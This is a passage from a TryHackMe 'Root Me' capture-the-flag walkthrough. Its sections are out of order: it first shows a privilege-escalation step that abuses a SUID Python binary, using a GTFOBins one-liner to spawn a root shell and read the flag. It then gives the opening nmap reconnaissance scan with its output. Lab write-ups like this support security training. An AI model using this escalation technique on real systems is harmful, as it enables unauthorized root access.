 I got a odd file that is `/usr/bin/python`

Let search the priv esc on [gtfo bin](https://gtfobins.github.io/gtfobins/python)
search for python and suid

![image](https://github.com/user-attachments/assets/a40dcb94-7904-4fb2-9ccb-4d6d5a490839)

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Past this 
```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# 
```
Finding root flag.txt
```
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
# 
```

---

# <div align="center">Root Me - TryHackMe Walkthrough</div>

## Step 1: Reconnaissance

We start with a basic Nmap scan to identify open ports and services running on the target machine.

```bash
nmap <ip> -sV -sC
```

### Scan Results:

```bash
nmap 10.10.15.83 -sV -sC 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 11:10 IST
Nmap scan report for 10.10.15.83
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---